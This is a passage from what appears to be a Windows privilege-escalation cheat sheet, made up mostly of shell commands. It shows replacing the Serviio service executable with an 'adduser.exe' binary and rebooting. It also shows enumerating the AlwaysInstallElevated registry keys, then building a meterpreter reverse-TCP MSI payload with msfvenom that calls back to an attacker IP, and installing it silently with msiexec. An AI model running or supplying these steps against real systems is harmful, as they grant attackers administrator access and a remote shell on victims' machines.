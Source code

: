 Move file `adduser.exe`

``` bash
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

Check StartMode for service

``` bash
wmic service where caption="Serviio" get name, caption, state, startmode
```

Check rights for restart system

``` bash
whoami /priv
```

Restart system

``` bash
shutdown /r /t 0
```

Check Administrators group

``` bash
net localgroup Administrators
```

## Binaries That AutoElevate

### AlwaysInstallElevated

[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated)

Enum commands

``` bash
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

``` bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Exploit

``` bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4567 -f msi > /root/Desktop/1.msi
```

``` bash
msiexec /quiet /qn /i 1.msi
```
